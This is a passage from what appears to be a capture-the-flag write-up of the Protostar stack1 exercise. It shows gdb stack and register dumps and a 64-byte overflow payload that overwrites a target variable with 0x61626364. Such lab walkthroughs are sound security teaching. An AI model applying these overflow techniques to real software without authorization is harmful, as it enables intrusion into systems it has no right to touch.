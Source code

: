 ```
eflags         0x200297	[ CF PF AF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) c
Continuing.
Try again, you got 0x00000000
```

Well, that failed. However, we now know that the jump to main+92 is the fail condition! Helpful bit of progression none the less. Let's try again, but check the value that is being compared just before the comparison instruction occurs.

After another attempt, I realised I had derped pretty hard... I misread some of the disassembly at first. If we look at our stack, we can see our issue:

```
(gdb) x/30wx $esp
0xbffffc40:	0xbffffc5c	0xbffffe80	0xb7fff8f8	0xb7f0186e
0xbffffc50:	0xb7fd7ff4	0xb7ec6165	0xbffffc68	0x64636261 <- abcd input
0xbffffc60:	0xb7fd7f00	0x080496fc	0xbffffc78	0x08048334
0xbffffc70:	0xb7ff1040	0x080496fc	0xbffffca8	0x08048509
0xbffffc80:	0xb7fd8304	0xb7fd7ff4	0x080484f0	0xbffffca8
0xbffffc90:	0xb7ec6365	0xb7ff1040	0x080484fb	0x00000000 <- target flag (lol)
0xbffffca0:	0x080484f0	0x00000000	0xbffffd28	0xb7eadc76
0xbffffcb0:	0x00000002	0xbffffd54
```

Looking at the stack above, it looks like we can use the same offsets as before (64 until we hit our flag) and then the 4 bytes for our actual flag. Instead of '42424242' we will write 'abcd' to get our target '0x61626364' within the address. Note we will need to reverse it because endian-ness of the target CPU (link to resource here). Our payload 'should' be:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
```

Re-running the program with our input and breaking just before the comparison instruction, we get:

```
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba

Breakpoint 1, 0x080484ab in main (argc=2, argv=0xbffffd14) at stack1/stack1.c:18
18	in stack1/stack1.c
(gdb) i r
eax            0x61626364	1633837924
ecx            0x0	0
edx            0x45	69
ebx            0xb7fd7ff4	-1208123404
esp            0xbffffc00	0xbffffc00
ebp            0xbffffc68	0xbffffc68
esi            0x0	0
edi            0x0	0
eip            0x80484ab	0x80484ab <main+71>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
```